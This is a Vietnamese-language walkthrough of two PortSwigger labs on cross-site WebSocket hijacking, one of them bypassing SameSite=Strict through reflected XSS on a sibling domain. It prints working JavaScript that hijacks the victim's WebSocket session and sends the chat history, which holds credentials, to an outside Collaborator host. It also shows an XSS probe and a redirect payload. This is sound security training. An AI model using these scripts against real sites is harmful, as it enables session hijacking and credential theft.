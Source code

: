 🧪 **Lab: Cross-site WebSocket Hijacking (PortSwigger)**

🔗 **Lab URL: https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab**

🧠 **Phân tích kỹ thuật đề bài**
Ứng dụng là một cửa hàng trực tuyến có tích hợp tính năng live chat sử dụng WebSocket để truyền và nhận tin nhắn theo thời gian thực.

✅ **Điểm yếu bảo mật:**

WebSocket không yêu cầu CSRF token khi handshake.

Cookie phiên của người dùng vẫn được gửi trong quá trình WebSocket handshake từ bất kỳ origin nào.

Cho phép kẻ tấn công tạo một script độc hại khiến trình duyệt của nạn nhân tự động kết nối lại WebSocket bằng session hợp lệ của họ.

🧩 **Mục tiêu**

Sử dụng tính năng Exploit Server để gửi một trang HTML chứa script khai thác đến nạn nhân, đánh cắp lịch sử chat của họ. Trong đó có chứa username và password, từ đó đăng nhập và hoàn thành lab.

🔍 **Bước 1: Quan sát hoạt động của WebSocket**

Truy cập lab, nhấn vào "Live chat".

Gửi một tin nhắn bất kỳ.

Reload lại trang.

Mở Burp Suite → Proxy → WebSockets history:

Quan sát thấy client gửi chuỗi "READY" → server phản hồi bằng toàn bộ lịch sử tin nhắn.

Đây là chuỗi quan trọng mà attacker cần gửi để server gửi lịch sử về.

![image](https://github.com/user-attachments/assets/437785b0-5ee3-458e-bb29-22600978b071)

Mở Burp → Proxy → HTTP history:

Tìm yêu cầu handshake WebSocket (thường là GET /chat với Upgrade: websocket).

Kiểm tra và xác nhận: không có CSRF token trong header.

![image](https://github.com/user-attachments/assets/34d82764-0e63-4957-bb6c-d0cf4d3121c8)

💥 **Bước 2: Khai thác bằng JavaScript**

Truy cập Exploit Server, dán đoạn script sau vào phần Body của payload:

<script>
    var ws = new WebSocket('wss://<your-lab-id>.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://<your-collaborator-id>.oastify.com', {
            method: 'POST',
            mode: 'no-cors',
            body: event.data
        });
    };
</script>
🔧 Lưu ý:

Thay <your-lab-id> bằng lab ID của bạn (copy từ yêu cầu handshake WebSocket).

Thay <your-collaborator-id> bằng Burp Collaborator payload.

🔁 **Quy trình khai thác**

Nạn nhân truy cập trang exploit.

Script chạy trên trình duyệt của nạn nhân.

Trình duyệt tự động mở WebSocket đến /chat với cookie hợp lệ.

Gửi "READY" → nhận toàn bộ lịch sử chat.

Từng tin nhắn được gửi về máy chủ attacker (qua Burp Collaborator).

Attacker thu được thông tin đăng nhập trong nội dung chat.

![image](https://github.com/user-attachments/assets/f2ac2644-962b-47b0-9372-d0ee47e0545f)

🧩 **Bước 3: Đăng nhập và hoàn thành Lab**

Mở Burp → Collaborator tab → Poll now.

Kiểm tra các request chứa lịch sử chat → tìm username và password.

Dùng thông tin đó để đăng nhập và hoàn thành lab.

✅ **Kết luận**

Lỗi WebSocket hijacking xảy ra khi:

WebSocket không kiểm tra Origin hoặc CSRF token.

Trình duyệt gửi cookie tự động trong kết nối WebSocket → cho phép trang bên ngoài "hijack" session hiện tại.

🧪 **Lab: SameSite Strict bypass via sibling domain**

🧠 **Mục tiêu**

Khai thác lỗ hổng Cross-site WebSocket Hijacking (CSWSH) và vượt qua cơ chế bảo vệ SameSite=Strict bằng cách sử dụng XSS từ domain anh em (cms-...) để đánh cắp lịch sử chat chứa thông tin đăng nhập nạn nhân.

🕵️‍♂️ **Phân tích kỹ thuật**

Ứng dụng có tính năng chat sử dụng WebSocket (/chat).

WebSocket không có CSRF token trong handshake → có thể bị chiếm quyền nếu vượt qua được SameSite cookie.

Cookie của ứng dụng được gán SameSite=Strict → chặn truy cập từ cross-site.

Tuy nhiên, domain cms-... là sibling domain trong cùng một "site" → không bị SameSite chặn.

cms-... chứa lỗ hổng reflected XSS trong form /login.
🧰 **Bước 1: Xác định XSS ở sibling domain**

Trong Burp Proxy, gửi yêu cầu đến một file JS/image → thấy header:
![image](https://github.com/user-attachments/assets/07117940-cc20-44b2-954c-202ec73e0861)
Truy cập domain đó → thấy form đăng nhập.

Gửi payload:

<script>alert(1)</script>

![image](https://github.com/user-attachments/assets/3c8f6d59-8f72-4270-a4b5-c6836b91dfad)

 => xác nhận có reflected XSS.

 Copy URL chứa payload XSS để sử dụng cho tấn công CSWSH(cross site websocket hijacking).

📡 **Bước 2: Viết script tấn công WebSocket**

<script>
    var ws = new WebSocket('wss://<your-lab-id>.web-security-academy.net/chat');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://<your-collaborator>.oastify.com', {
            method: 'POST',
            mode: 'no-cors',
            body: event.data
        });
    };
</script>
URL-encode toàn bộ script trên → dán vào URL cms-.../login?username=....

Tạo script chuyển hướng người dùng sang URL XSS:

<script>
    document.location = "https://cms-<lab-id>.web-security-academy.net/login?username=<payload-encoded>&password=anything";
</script>

![image](https://github.com/user-attachments/assets/22dcb625-d9e4-491d-be1e-8ff3a50f943f)

🎯 **MỤC ĐÍCH:**

Khởi tạo kết nối WebSocket từ trình duyệt nạn nhân đến server chat, sử dụng session cookie của nạn nhân.

Gửi lệnh "READY" đến server, khiến nó phản hồi toàn bộ lịch sử chat (chứa tên đăng nhập và mật khẩu).

Gửi dữ liệu lịch sử chat đó ra ngoài, về máy chủ của kẻ tấn công (thông qua Burp Collaborator).

Do SameSite=Strict ngăn chặn gửi cookie khi truy cập từ một site khác, nên:

XSS trên sibling domain (cms-...) được dùng để thực thi JavaScript trong cùng "site" → cookie được gửi đúng cách → bypass thành công SameSite Strict.

✅ **Kết quả:**

Khi người dùng (nạn nhân) truy cập URL chứa XSS trong username, trình duyệt của họ:

Chạy script tấn công WebSocket (gửi "READY" → nhận chat history).

Do chạy từ cùng site, cookie được gửi theo.

Chat history chứa username/password → được gửi về attacker.
